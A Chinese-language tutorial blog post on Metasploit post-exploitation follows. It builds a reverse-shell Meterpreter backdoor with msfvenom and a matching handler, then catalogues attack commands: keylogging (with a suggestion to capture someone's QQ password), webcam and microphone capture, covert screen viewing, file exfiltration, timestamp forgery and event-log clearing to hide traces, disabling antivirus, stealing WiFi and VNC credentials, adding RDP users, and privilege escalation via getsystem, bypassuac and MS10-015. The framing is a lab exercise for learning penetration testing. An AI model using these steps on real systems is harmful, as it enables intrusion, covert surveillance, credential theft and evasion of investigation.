






# 1.**Metasploit简介**

The Metasploit Framework 的简称。 MSF 高度模块化，即框架由多个 module 组成，是全球最受欢迎的渗透测试工具之一。

是一款开源安全漏洞利用和测试工具，集成了各种平台上常见的溢出漏洞和流行的shellcode ，并持续保持更新。

metasploit 涵盖了渗透测试中全过程，你可以在这个框架下利用现有的 Payload进行一系列的渗透测试。

## 1.1.**Metasploit下载**

在kail中自带Metasploit工具，这里可以直接使用。若确实需要下载在其它位置，那么也可以去官网进行下载，同时在官网中还附带相应的官方手册。

[官网](https://www.offensive-security.com/metasploit-unleashed/introduction/)

## 1.2.**其它参考**

这里可以参考我的Metasploit工具使用(上)。

## 1.3.**本章简述**

本章主要是在通过之前的测试获取到目标机的获取目标机的Meterpreter Shell后，就进入了Metasploit的后期渗透利用阶段。

# 2.**Meterpreter**

## 2.1.**简介**

Meterpreter是 Metasploit 框架中的一个扩展模块，作为后渗透阶段的攻击载荷使用，在后渗透阶段具有强大的攻击力，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个 meterpreter shell链接。

## 2.2.**优点**

总体来说Meterpreter的有点就是易于隐藏，不需要对磁盘进行任何写入操作，因此 HIDS（基于主机的入侵检测系统）很难对它做出响应使用加密通信协议，而且可以同时与几个信道通信在被攻击进程内工作，不需要创建新的进程，易于在多进程之间迁移，平台通用，简化任务创建多个会话，利用会话进行渗透运行的时候系统时间是变化的，跟踪它、终止它非常困难。

## 2.3.**注意事项**

若想免提权测试，那么在木马发送到靶机的时候，一定要右击以管理员权限运行，否则在后面的学习与测试中，可能会存在权限不足的情况，当然如果想练习提权那么就可以双击运行即可。

后续的学习测试后，会存在很多地方需要权限，所以看自己的想法吧。

## 2.4.**整体攻击流程**

这里演示一下创建后门与获取到shell权限的整体流程，具体的流程请参考我提供的Metasploit工具使用(上)，在这个里面有具体的解释，这里我就直接输入命令，并不在进行过多的赘述。

### 2.4.1.**创建后门**

这里通过下面的命令创建一个后缀为exe的后门文件，该文件生成在当前kail的根目录下。

```
命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f exe > shell.exe
```

 

### 2.4.2.**监听后门**

这里进行监听后门，这里设定的payload、lhost、lport都要和生成的后门相匹配才可以。

```shell
命令：

msfconsole 

use exploit/multi/handler 

set PAYLOAD windows/meterpreter/reverse_tcp  //很重要

set LHOST 192.168.10.20 

set LPORT 4444 

run
```

 

### 2.4.3.**运行后门**

这里我们把生成的exe文件发送到目标主机上进行执行，执行后在攻击机上就能够看到上线了。

 

### 2.4.4.**成功获得**

这里可以看到成功获取到了权限，那么就可以进行我们下一步的操作了。

 

# 3.**渗透后命令汇总**

## 3.1.**迁移进程**

刚获取到的Meterpreter Shell，是较为脆弱的，需要将shell和目标主机中较为稳定的程序捆版在一起。例如使用某个软件的漏洞获取到的shell，可能在一段时间后就会被用户关闭，那么关闭后，自然获取到的shell也就会被中断，所以需要一个比较稳定的进程进行绑定。

### 3.1.1.**查看当前进程**

这里使用ps命令就可以显示目标主机上所有活跃的进程。

 

### 3.1.2.**获取当前进程PID**

这里我们获取当前进程PID也就是这个后门的进程id。

```
命令：getpid
```

 

### 3.1.3.**迁移进程**

这里显示我们当前的PID是1528，那么我们这里我们找一个比较稳定的进程进行捆绑，这里我就选择3960这个进程。

```
命令：migrate PID
```

 

### 3.1.4.**查看当前进程**

这里迁移后我们可以使用getpid查看一下，迁移后的进程ID。

 

### 3.1.5.**杀死进程**

若我们获取完数据后，需要销毁，那么我们可以将进程给杀死。

```
命令：kill <pid值>  
```


## 3.2.**上传下载**

若我们获取到shell后，但是觉得这个后门木马比较简单，可能存在被杀毒软件杀掉的情况，那么就可以使用上传下载功能将所需要的木马进行上传或者下载。

### 3.2.1.**上传文件**

这里我们在/root下放入一个1.txt，并且在里面写入hahahahah，我们将这个文件上传至目标机器中。

```
命令：upload 文件
```

 

通过目标主机上的1.txt文件判断，我们是成功上传了文件。

 

### 3.2.2.**下载文件**

这里我们通过ls看到在目标机器上只有一个1.txt，当然是我们刚刚上传上去的，那么我们把攻击机上的1.txt文件删除，我们把目标机上的1.txt给下载下来。

```
命令：download 1.txt
```

 

## 3.3.**摄像头命令**

这里由于我是虚拟机我也无法演示。

| 命令          | 介绍                   |
| ------------- | ---------------------- |
| record_mic    | 音频录制               |
| webcam_list   | 查看摄像头             |
| webcam_snap   | 通过摄像头拍照         |
| webcam_stream | 通过摄像头开启视频监控 |

## 3.4.**开关键盘/鼠标**

这里开关键盘鼠标也不好演示，也就不演示了。

| 命令                   | 介绍       |
| ---------------------- | ---------- |
| uictl [enable/disable] | 开启或禁止 |
| uictl disable mouse    | 禁用鼠标   |
| uictl disable keyboard | 禁用键盘   |

### 3.4.1.**键盘记录**

键盘记录是指能够记录目标机上操作的键盘记录，若你通过屏幕监控到他在输入qq密码，然后你开启键盘记录，那么不就可以获取他的qq密码？

#### 3.4.1.1.**开启记录**

```
命令：keyscan_start
```

 

#### 3.4.1.2.**导出记录**

```
命令：keyscan_dump 
```

 

#### 3.4.1.3.**关闭记录**

```
命令：keyscan_stop
```

 

## 3.5.**portwd端口转发**

### 3.5.1.**端口转发介绍**

Meterpreter shell中的portfwd命令最常用作透视技术，允许直接访问攻击系统无法访问的机器。在可以访问攻击者和目标网络（或系统）的受损主机上运行此命令，我们可以实质上通过本机转发TCP连接，从而使其成为一个支点。就像使用ssh连接的端口转发技术一样，portfwd将中继与连接的机器之间的TCP连接

### 3.5.2.**相关命令**

| 命令                     | 介绍                                     |
| ------------------------ | ---------------------------------------- |
| 参数（用于查看某些信息） |                                          |
| portfwd add              | 该参数用于创建转发                       |
| portfwd Delete           | 这将从我们的转发端口列表中删除先前的条目 |
| portfwd List             | 这将列出当前转发的所有端口               |
| portfwd Flush            | 这将删除我们的转发列表中的所有端口       |
| 选项（用于配置信息）     |                                          |
| portfwd -h               | 帮助命令                                 |
| portfwd -L               | 要监听的本地的主机（通常为攻击机，可选） |
| portfwd -l               | 要监听的本地端口                         |
| portfwd -p               | 要连接的远程端口（通常为目标机）         |
| portfwd -r               | 要连接的远程主机                         |

### 3.5.3.**配置语法**

这里介绍一下几个参数的配置语法。

#### 3.5.3.1.**add语法**

```
命令：portfwd add -l 本地端口 -p 目标端口 -r 目标主机/IP地址

add会将端口转发添加到列表中，并将为我们创建一个隧道。请注意，此通道也将存在于Metasploit控制台之外，使其可用于任何终端会话。

-l 本地端口，将被监听并转发到我们的目标。这可以是您的机器上的任何端口，只要它尚未被使用。

-p 目标端口，是我们的定向主机上的目标端口。

-r [target host]是我们的目标系统的IP或主机名。

-L 这里并未标识出来，是由于如果配置的话可以是攻击机地址，当然不配置默认也是我们攻击机地址，只不过配置了是具体的IP，不配置是127.0.0.1。
```

 

#### 3.5.3.2.**delete语法**

```
命令：portfwd delete -l 本地端口 -p 目标端口 -r 目标主机/IP地址
```

这个我就不在介绍了，可以说和add是一样的语法。

#### 3.5.3.3.**list语法**

```
命令：portfwd list
```

这个命令就是查看正在监听的或转发的端口列表。

 

#### 3.5.3.4.**flush语法**

```
命令：portfwd flush
```

这个命令就是删除所有的转发列表。

 

### 3.5.4.**验证**

这里我们转发了目标主机的远程桌面，这里我们试着连接目标的远程桌面，不过这里需要注意的是，我们连接的不在是目标地址与端口，而是我们设立的监听地址与端口，这里我监听的ip地址是192.168.10.20，监听的端口是18080。

这里跳转界面没跳转出来，也就是远程桌面没有跳出来，可以自行尝试ssh、telnet这些可以直接使用的。

```
命令：rdesktop 192.168.10.20:18080
```

 

## 3.6.**截屏/屏幕监控**

### 3.6.1.**截屏**

#### 3.6.1.1.**开启截屏**

这里可以通过命令进行屏幕的截图。

```
命令：screenshot
```

 

#### 3.6.1.2.**查看效果**

这里的图片在当前目录中就能找到。

 

### 3.6.2.**屏幕监控**

#### 3.6.2.1.**开启监控**

这里我屏幕监控也就是像直播一样，只是有点卡，但是对方毫不知情。

```
命令：run vnc
```

 

#### 3.6.2.2.**监控效果**

这里可能会比较慢，过一会就能弹出一个屏幕，不过只能看，并不能操作。

 

## 3.7.**时间戳伪造**

通过时间戳的伪造可以迷惑目标在排查后门木马的时候的判断。

### 3.7.1.**查看帮助**

```
命令：timestomp C:\\ -h
```

 

### 3.7.2.**查看时间戳**

这里路径需要注意，刚开始我使用的是c:\gx\1.txt，发现无法查看，后来添加两个斜杠就可以了。

```
命令：timestomp -v C:\\gx\\1.txt
```

 

### 3.7.3.**修改时间戳**

这里修改时间戳有两个办法一个是将其它文件的时间戳，复制给目标文件，还有就是手动设置时间进行修改。

#### 3.7.3.1.**复制时间戳**

这里就是将shell.exe的时间复制给1.txt

```
命令：timestomp c:\\gx\\1.txt -f c:\\gx\\shell.exe
```

 

#### 3.7.3.2.**手动修改时间戳**

-z是设定时间，-v是把四个属性设置为统一时间，这里需要注意，设置时间是"月/日/年 时/分/秒"

```
命令：timestomp  c:\\gx\\1.txt -z "01/30/2023 13:10:55" -v
```

 

## 3.8.**执行文件**

这里执行文件是在meterpreter 模式下执行，相当于不进入shell中进行执行，这样避免来回切换。

| 命令                                                         | 介绍                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| execute 文件                                                 | 在目标机中执行文件                                           |
| execute -H -i -f  cmd.exe                                    | 创建新进程cmd.exe，-H不可见，-i交互                          |
| execute -H -m -d notepad.exe -f payload.exe -a "-o hack.txt" | -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行"-o hack.txt"是payload.exe的运行参数 |

## 3.9.**清除日志**

| 命令    | 介绍                                            |
| ------- | ----------------------------------------------- |
| clearev | 清除windows中的应用程序日志、系统日志、安全日志 |

 

## 3.10.**基础命令**

这里基础命令是基于在meterpreter下执行的命令，不要搞错了，这里我就不演示了，都是一些进入或者使用的命令。

| 命令               | 介绍                                               |
| ------------------ | -------------------------------------------------- |
| shell              | 进入目标机cmd shell                                |
| background         | 将当前会话放置后台                                 |
| sessions -h        | 查看帮助                                           |
| sessions -i <ID值> | 进入会话                                           |
| sessions -k <ID值> | 杀死会话                                           |
| bgrun / run        | 执行已有的模块，输入run后按两下tab，列出已有的脚本 |
| info               | 查看已有模块信息                                   |
| getuid             | 查看当前用户身份                                   |
| getprivs           | 查看当前用户具备的权限                             |
| getpid             | 获取当前进程ID(PID)                                |
| sysinfo            | 查看目标机系统信息                                 |
| irb                | 开启ruby终端                                       |
| ps                 | 查看正在运行的进程                                 |
| kill <PID值>       | 杀死指定PID进程                                    |
| idletime           | 查看目标机闲置时间                                 |
| reboot / shutdown  | 重启/关机                                          |

## 3.11.**文件管理命令**

这里的文件管理是涉及本地的以及目标机器的，在meterpreter下，命令有不同的地方，所以还需大概了解一下，当然这里就是一些常用的。

| 命令                    | 介绍                                 |
| ----------------------- | ------------------------------------ |
| 目标机命令              |                                      |
| ls                      | 列出当前目录中的文件列表             |
| cd                      | 进入指定目录                         |
| getwd / pwd             | 查看当前工作目录                     |
| search -d c:\\ -f *.txt | 搜索文件  -d 目录 -f 文件名          |
| cat c:\\123.txt         | 查看文件内容                         |
| edit c:\\test.txt       | 编辑或创建文件  没有的话，会新建文件 |
| rm C:\\hack.txt         | 删除文件                             |
| mkdir admin             | 只能在当前目录下创建文件夹           |
| rmdir admin             | 只能删除当前目录下文件夹             |
| 本地机命令              |                                      |
| getlwd / lpwd           | 查看本地当前目录                     |
| lcd /tmp                | 切换本地目录                         |

# 4.**渗透模块使用**

由于一边学一边总结，可能会少些内容，可能没学到或者涉及到，所以缺失的内容后续将慢慢补其。

## 4.1.**信息收集**

这里的信息收集，可以通过在获取shell权限后，进一步的获取自己想要的信息，根据这些信息使用不同的渗透手法。

| 命令                                                     | 介绍                           |
| -------------------------------------------------------- | ------------------------------ |
| run post/multi/gather/env                                | 获取用户环境变量               |
| run post/linux/gather/checkvm                            | 是否虚拟机                     |
| run post/windows/gather/checkvm                          | 是否虚拟机                     |
| run post/windows/gather/forensics/enum_drives            | 查看磁盘分区信息               |
| run post/windows/gather/enum_applications                | 获取安装软件信息               |
| run post/windows/gather/dumplinks                        | 获取最近访问过的文档、链接信息 |
| run post/windows/gather/enum_ie                          | 获取IE缓存                     |
| run post/windows/gather/enum_firefox                     | 获取firefox缓存                |
| run post/windows/gather/enum_chrome                      | 获取Chrome缓存                 |
| run post/multi/recon/local_exploit_suggester             | 获取本地提权漏洞               |
| run post/windows/gather/enum_patches                     | 获取补丁信息                   |
| run post/windows/gather/enum_domain                      | 查找域控                       |
| run post/windows/gather/enum_snmp                        | 获取snmp团体名称               |
| run post/windows/gather/credentials/vnc                  | 获取vnc密码                    |
| run post/windows/wlan/wlan_profile                       | 用于读取目标主机WiFi密码       |
| run post/windows/manage/killav                           | 闭杀毒软件                     |
| run post/windows/manage/enable_rdp                       | 开启远程桌面（需要权限）       |
| run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24 | 扫描整个段存活主机             |
| run post/windows/gather/enum_computers                   | 枚举域内的主机                 |

### 4.1.1.**扫描存活主机**

```
命令：run post/windows/gather/arp_scanner RHOSTS=192.168.10.0/24
```

 

### 4.1.2.**远程桌面**

#### 4.1.2.1.**开启远程桌面**

效果就不再展示了，由于展示了也是截图，无法直观看到具体的变化，可以自行进行测试。

```
命令：run post/windows/manage/enable_rdp
```

 

#### 4.1.2.2.**添加用户**

这里的添加用户是在开启远程桌面的时候，不知道靶机的密码的时候，可以添加一个用户用于访问。

```
命令：run post/windows/manage/enable_rdp USERNAME=test PASSWORD=123qweASD
```

 

### 4.1.3.**用户环境变量**

```
命令：run post/multi/gather/env
```

 

## 4.2.**提权**

一般在把木马放入靶机的时候，通常启动都并非是管理员启动，需要对其进行提权，对于提权这一块不太熟悉这里，先放一些网上的方式。

### 4.2.1.**本地提权**

搜集补丁信息，寻找可利用exploits提权。

```
命令：

run post/windows/gather/enum_patches  #查看补丁信息

background

search MS10-015          #利用未打补丁的模块即可

use exploit/windows/local/ms10_015_kitrap0d

set session 8            #选择目标

run                 #执行攻击
```


### 4.2.2.**getsystem提权**

getsystem创建一个新的Windows服务，设置为SYSTEM运行，当它启动时连接到一个命名管道。

getsystem产生一个进程，它创建一个命名管道并等待来自该服务的连接。

Windows服务已启动，导致与命名管道建立连接。

该进程接收连接并调用ImpersonateNamedPipeClient，从而为SYSTEM用户创建模拟令牌。

```
命令：getsystem
```

 

### 4.2.3.**bypassuac提权**

内置多个pypassuac脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行getsystem获取系统权限。

```
exploit/windows/local/bypassuac

exploit/windows/local/bypassuac_eventvwr

exploit/windows/local/bypassuac_injection

exploit/windows/local/bypassuac_injection_winsxs

exploit/windows/local/bypassuac_silentcleanup

exploit/windows/local/bypassuac_vbs
```


#### 4.2.3.1.**执行流程**

在getsystem提权失败，再利用bypassuac来提权。

```
命令：

use exploit/windows/local/bypassuac

set session 1       #选择当前会话id

run 
```

 